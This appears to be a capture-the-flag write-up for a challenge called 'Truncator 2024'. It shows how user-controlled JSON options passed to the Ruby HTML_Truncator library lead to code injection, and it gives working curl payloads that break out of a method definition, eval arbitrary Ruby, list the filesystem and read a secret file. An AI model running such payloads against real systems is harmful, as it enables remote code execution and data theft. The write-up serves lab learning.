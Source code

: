 # Truncator 2024

The application allows the user to set options in the call to `HTML_Truncator.truncate`.
```ruby
  params[:options].each do |option, _|
    options.merge!(JSON.parse(option, symbolize_names: true))
  end

  @html = HTML_Truncator.truncate(html, options[:length].to_i, options)
```

The library evaluates one of the options to define a singleton method on the returned string: https://github.com/nono/HTML-Truncator/blob/245ba6fc17ff7e95611b10e157e3c5a3e8ad576c/lib/html_truncator.rb#L16

Since the injection point is in an instance method, you have to move out of that scope to have code that executes right away. A comment can be used to escape the rest of the code.

```sh
html="Dir['/*']"

curl 'http://truncator.local/truncate' \
  -d "html=$html" \
  -d 'length=30' \
  -d 'options[{"was_truncated":"true end end; return eval(str).to_s # "}]=on'
```

```sh
html="File.read Dir['/secret*'].first"

curl 'http://truncator.local/truncate' \
  -d "html=$html" \
  -d 'length=30' \
  -d 'options[{"was_truncated":"true end end; return eval(str).to_s # "}]=on'
```
